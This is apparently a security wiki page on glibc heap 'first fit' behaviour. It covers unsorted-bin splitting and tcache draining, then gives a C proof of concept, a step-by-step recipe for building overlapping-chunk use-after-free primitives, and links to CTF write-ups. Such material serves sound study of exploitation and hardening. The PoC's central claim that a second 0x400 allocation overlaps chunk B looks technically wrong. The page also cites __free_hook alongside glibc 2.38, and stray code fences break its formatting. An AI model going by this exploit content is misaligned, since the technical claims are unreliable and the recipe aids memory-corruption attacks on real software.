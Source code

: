 # First Fit


## **First Fit**

When you free memory in a program using glibc, different "bins" are used to manage the memory chunks. Here's a simplified explanation of two common scenarios: unsorted bins and fastbins.

### Unsorted Bins

When you free a memory chunk that's not a fast chunk, it goes to the unsorted bin. This bin acts like a list where new freed chunks are added to the front (the "head"). When you request a new chunk of memory, the allocator looks at the unsorted bin from the back (the "tail") to find a chunk that's big enough. If a chunk from the unsorted bin is bigger than what you need, it gets split, with the front part being returned and the remaining part staying in the bin.

Example:

- You allocate 300 bytes (`a`), then 250 bytes (`b`), then free `a` and request again 250 bytes (`c`).
- When you free `a`, it goes to the unsorted bin.
- If you then request 250 bytes again, the allocator finds `a` at the tail and splits it, returning the part that fits your request and keeping the rest in the bin.
  - `c` will be pointing to the previous `a` and filled with the `a`'s contents.

```c
char *a = malloc(300);
char *b = malloc(250);
free(a);
char *c = malloc(250);
```
```
### Fastbins

Fastbins are used for small memory chunks. Unlike unsorted bins, fastbins add new chunks to the head, creating a last-in-first-out (LIFO) behavior. If you request a small chunk of memory, the allocator will pull from the fastbin's head.

Example:

```c
char *a = malloc(20);
char *b = malloc(20);
char *c = malloc(20);
char *d = malloc(20);
free(a);
free(b);
free(c);
free(d);
a = malloc(20);   // d
b = malloc(20);   // c
c = malloc(20);   // b
d = malloc(20);   // a
```
```
---
### 🔥 Modern glibc considerations (tcache ≥ 2.26)

Since glibc 2.26 every thread keeps its own **tcache** that is queried *before* the unsorted bin.  Therefore a first-fit scenario will **only be reached if**:

1. The requested size is **larger than `tcache_max`** (0x420 on 64-bit by default), *or*
2. The corresponding tcache bin is **already full or emptied manually** (by allocating 7 elements and keeping them in use).

In real exploits you will usually add a helper routine such as:

```c
// Drain the tcache for a given size
for(int i = 0; i < 7; i++) pool[i] = malloc(0x100);
for(int i = 0; i < 7; i++) free(pool[i]);
```
```
Once the tcache is exhausted, subsequent frees go to the unsorted bin and classic first-fit behaviour (tail search, head insertion) can be triggered again.

---
### 🚩 Crafting an overlapping-chunk UAF with first-fit

The fragment below (tested on glibc 2.38) shows how the splitter in the unsorted bin can be abused to create 2 **overlapping pointers** – a powerful primitive that converts a single free into a write-after-free.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(){
    setbuf(stdout, NULL);

    /* 1. prepare 2 adjacent chunks and free the first one */
    char *A = malloc(0x420);   // big enough to bypass tcache
    char *B = malloc(0x420);
    strcpy(A, "AAAA\n");
    free(A);                   // A → unsorted

    /* 2. request a *smaller* size to force a split of A */
    char *C = malloc(0x400);   // returns lower half of former A

    /* 3. The remainder of A is still in the unsorted bin.
          Another 0x400-byte malloc will now return the *same*
          region pointed to by B – creating a UAF/overlap. */
    char *C2 = malloc(0x400);

    printf("B  = %p\nC2 = %p (overlaps B)\n", B, C2);

    // Arbitrary write in B is immediately visible via C2
    memset(B, 'X', 0x10);
    fwrite(C2, 1, 0x10, stdout);  // prints Xs
}
```
```
Exploitation recipe (common in recent CTFs):

1. **Drain** the tcache for the target size.
2. **Free** a chunk so it lands in the unsorted bin.
3. **Allocate** a slightly smaller size – the allocator splits the unsorted chunk.
4. **Allocate** again – the leftover part overlaps with an existing in-use chunk → UAF.
5. Overwrite sensitive fields (function pointers, FILE vtable, etc.)

A practical application can be found in the 2024 HITCON Quals *Setjmp* challenge where this exact primitive is used to pivot from a UAF to full control of `__free_hook`.

---
### 🛡️  Mitigations & Hardening

* **Safe-linking (glibc ≥ 2.32)** only protects the singly-linked *tcache*/**fastbin** lists.  The unsorted/small/large bins still store raw pointers, so first-fit based overlaps remain viable if you can obtain a heap leak.
* **Heap pointer encryption & MTE** (ARM64) do not affect x86-64 glibc yet, but distro hardening flags such as `GLIBC_TUNABLES=glibc.malloc.check=3` will abort on inconsistent metadata and can break naïve PoCs.
* **Filling tcache on free** (proposed in 2024 for glibc 2.41) would further reduce unsorted usage; monitor future releases when developing generic exploits.

---
## Other References & Examples

- [[https://heap-exploitation.dhavalkapil.com/attacks/first_fit|**https://heap-exploitation.dhavalkapil.com/attacks/first_fit**]]
- [[https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/|**https://8ksec.io/arm64-reversing-and-exploitation-part-2-use-after-free/**]]
  - ARM64. Use after free: Generate an user object, free it, generate an object that gets the freed chunk and allow to write to it, **overwriting the position of user->password** from the previous one. Reuse the user to **bypass the password check**
- [[https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example|**https://ctf-wiki.mahaloz.re/pwn/linux/glibc-heap/use_after_free/#example**]]
  - The program allows to create notes. A note will have the note info in a malloc(8) (with a pointer to a function that could be called) and a pointer to another malloc(<size>) with the contents of the note.
  - The attack would be to create 2 notes (note0 and note1) with bigger malloc contents than the note info size and then free them so they get into the fast bin (or tcache).
    - Then, create another note (note2) with content size 8. The content is going to be in note1 as the chunk is going to be reused, were we could modify the function pointer to point to the win function and then Use-After-Free the note1 to call the new function pointer.
- [[https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html|**https://guyinatuxedo.github.io/26-heap_grooming/pico_areyouroot/index.html**]]
  - It's possible to alloc some memory, write the desired value, free it, realloc it and as the previous data is still there, it will treated according the new expected struct in the chunk making possible to set the value ot get the flag.
- [[https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html|**https://guyinatuxedo.github.io/26-heap_grooming/swamp19_heapgolf/index.html**]]
  - In this case it's needed to write 4 inside an specific chunk which is the first one being allocated (even after force freeing all of them). On each new allocated chunk it's number in the array index is stored. Then, allocate 4 chunks (+ the initialy allocated), the last one will have 4 inside of it, free them and force the reallocation of the first one, which will use the last chunk freed which is the one with 4 inside of it.
- 2024 HITCON Quals Setjmp write-up (Quarkslab) – practical first-fit / unsorted-split overlap attack: <https://ctftime.org/writeup/39355>
- Angstrom CTF 2024 *heapify* write-up – abusing unsorted-bin splitting to leak libc and gain overlap: <https://hackmd.io/@aneii11/H1S2snV40>



